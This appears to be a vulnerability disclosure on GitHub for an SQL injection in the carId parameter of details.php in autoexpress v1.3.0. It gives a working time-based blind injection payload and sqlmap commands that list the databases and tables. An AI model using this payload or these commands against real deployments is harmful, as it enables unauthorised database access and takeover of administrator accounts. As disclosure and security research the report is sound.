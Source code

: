 ### BUG_Author:

xionggang zhang

### Affected version:

autoexpress

### Vendor:

http://autoexpress.com
http://raymart.com

### Software:

autoexpress - v1.3.0

### Vulnerability File:

details.php

### Description:

The autoexpress system v1.3.0 has an SQL injection vulnerability on the details.php page.
The parameter carId was not processed correctly. Hackers can exploit this vulnerability to manipulate the administrator account of the system and have complete control over the information of other accounts.

Status: Severe

The GET parameter carId has SQL injection

Payload: 

> carId=3 AND (SELECT 2064 From (SELECT (SLEEP (5))) mqMc)

Sqlmap command:

> python sqlmap.py -u http://localhost:8080/autoexpress-Master/details.php?carId=3 --dbs  --batch

![图片](https://github.com/torchstar/autoexpress/assets/95554269/41a38655-8c1c-4700-b85c-9230bbfd4a3a)

![图片](https://github.com/torchstar/autoexpress/assets/95554269/d11aab90-53dc-4f78-9886-e5e7947108b3)


> python sqlmap.py -u http://localhost:8080/autoexpress-Master/details.php?carId=3 -D autoexpress --tables  --batch

![图片](https://github.com/torchstar/autoexpress/assets/95554269/0397907c-edfb-4ca0-8d7b-77b65b847773)
